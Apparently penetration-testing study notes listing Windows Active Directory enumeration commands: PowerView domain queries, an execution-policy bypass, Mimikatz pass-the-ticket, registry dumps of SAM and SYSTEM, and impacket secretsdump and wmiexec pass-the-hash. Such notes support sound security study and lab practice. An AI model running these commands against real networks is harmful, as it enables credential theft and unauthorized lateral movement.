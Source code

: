 ## AD enumeration

### Kerberos TGT/TGS  (Kirbi)

```
dir *.kirbi
```

```
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

### PowerView.ps1

```
powershell -ep bypass
Import-Module .\PowerView.ps1
```

#### Domain 

```
Get-NetDomain
```

#### Users 

```
Get-NetUser | select cn
```

#### Groups

```
Get-NetGroup | select cn
```

#### Computers in Domain

```
Get-NetComputer
```

#### Converir Security identifier

```powershell
#S-1-5-21-1987370270-658905905-1781884369-1104
Convert-SidToName  S-1-5-21-1987370270-658905905-1781884369-1104
```

#### Domain Shares

```
Find-DomainShare
```


### Manual

#### Local Admin

```
Find-LocalAdminAccess
```

#### Login in a computer

```
Get-NetSession -ComputerName Servidor -Verbose
.\PsLoggedon.exe \\Servidor
```

## Local Enumeration

### Plain text files

```
 Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

###  powershell history

```
 Get-History
```

```
(Get-PSReadlineOption).HistorySavePath
```

### Scheduled Tasks

```
schtasks /query /fo LIST /v
```


## Backup SAM - SYSTEM

> [!tip]  BackupPrivilege permissions  necessary
> ```
>reg save hklm\sam C:\Users\USer\Desktop\SAM
>reg save hklm\system C:\Users\User\Desktop\SYSTEM
>```
>
>- con impacket dump credentials.
>
>```
>impacket-secretsdump -system SYSTEM -sam SAM local
>impacket-wmiexec -hashes :HASH Administrator@IP
>```